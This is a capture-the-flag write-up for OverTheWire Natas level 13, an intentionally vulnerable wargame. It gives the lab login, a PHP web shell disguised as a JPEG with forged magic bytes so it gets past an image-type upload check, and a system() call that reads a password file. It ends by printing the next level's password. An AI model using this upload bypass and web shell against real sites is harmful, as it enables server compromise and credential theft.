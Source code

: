 ## Natas Level 13 → Level 14
- Go to url: http://natas13.natas.labs.overthewire.org
    - User: natas13
    - Password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
- It looks almost exactly the same as before
- But with one unfortunate bonus in the source code...
    - else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image";
    - It checks if it's an image!
- To bypass this we need to understand how file identification works
    - As it turns out, there are magic bytes at the start of every file which denote how it's interpreted
    - If we simply edit those magic bytes, we can trick the website into allowing us to submit a fake jpeg again
- Let's make a similar fake jpeg
    - echo "<?php echo system(\"cat /etc/natas_webpass/natas14\"); ?>" > totallyapicture.jpg
- Now to edit the magic bytes
    - First, let's insert 4 bytes using spaces
        - vim totallyapicture.jp
    - Next, let's turn those bytes into the correct magic bytes, which are easily found on wikipedia as FF D8 FF DB
        - hexedit totallyapicture.jp
    - And we should be all set!
- Submit and open the file like in the previous level
    - ����Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1